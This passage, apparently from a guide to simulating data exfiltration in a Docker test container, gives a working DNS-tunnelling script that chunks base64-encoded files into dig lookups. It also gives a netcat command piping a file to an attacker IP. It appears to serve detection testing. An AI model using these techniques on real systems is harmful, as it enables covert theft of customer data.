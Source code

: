 ```bash
    # Read the file
    with open(file_path, 'rb') as f:
        data = f.read()
    
    # Base64 encode the data
    encoded_data = base64.b64encode(data).decode('utf-8')
    
    # Split into chunks
    chunks = chunk_data(encoded_data)
    
    # Send each chunk via DNS query
    for i, chunk in enumerate(chunks):
        # Create a unique subdomain for each chunk
        subdomain = f"{generate_random_subdomain()}-{i}-{chunk}"
        
        # Perform DNS lookup
        dns_query = f"{subdomain}.{domain}"
        print(f"Exfiltrating chunk {i+1}/{len(chunks)}: {dns_query}")
        
        try:
            subprocess.run(['dig', dns_query], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
            # Add a small delay between requests
            time.sleep(random.uniform(0.1, 0.5))
        except Exception as e:
            print(f"Error sending chunk {i+1}: {str(e)}")

if __name__ == "__main__":
    exfiltrate_via_dns('/tmp/customer_data.csv')
    print("Data exfiltration simulation completed.")
EOF"
```

2. Install the necessary tools and run the script:

```bash
docker exec -it exfil-test apt-get install -y dnsutils
docker exec -it exfil-test python3 /tmp/dns_exfil.py
```

### Method 3: Large Volume Data Transfer

1. Create a large file to simulate exfiltration of a significant amount of data:

```bash
docker exec -it exfil-test bash -c "dd if=/dev/urandom of=/tmp/large_file.bin bs=1M count=100"
```

2. Transfer the file using netcat:

```bash
# On a separate system (attacker machine)
nc -l -p 9999 > stolen_data.bin

# In the test container
docker exec -it exfil-test bash -c "cat /tmp/large_file.bin | nc <attacker_ip> 9999"
```
